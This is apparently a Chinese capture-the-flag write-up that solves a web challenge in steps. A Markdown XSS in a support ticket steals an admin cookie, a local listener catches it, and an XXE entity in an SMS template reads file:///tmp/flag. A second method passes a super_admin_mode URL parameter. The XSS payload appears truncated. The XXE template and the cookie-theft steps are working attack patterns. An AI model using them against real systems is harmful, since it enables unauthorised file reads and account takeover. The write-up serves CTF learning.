





# xxxxx

## 解题过程

### 1、注册账号进入用户界面



### 2、进入工单记录，提交 Markdown XSS

```markdown
)%")
```

该 payload 是弹到本地8234端口

### 3、在本地监听8234端口，得到管理员cookie



### 4、利用得到的管理员cookie登陆管理员界面，进入短信设置



### 5、打开请求手机验证，修改模板为

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [ <!ENTITY xxe SYSTEM "file:///tmp/flag" >
]>
<root>
    <tel>{tel}</tel>
    <text>【VYG乐购】您的验证码为： {code} &xxe;</text>
</root>
```

### 6、以管理员身份去实名认证


点击发短信

获得flag


## 解法2

访问 `http://127.0.0.1:8233/user/2?super_admin_mode=1` 可得管理员flag


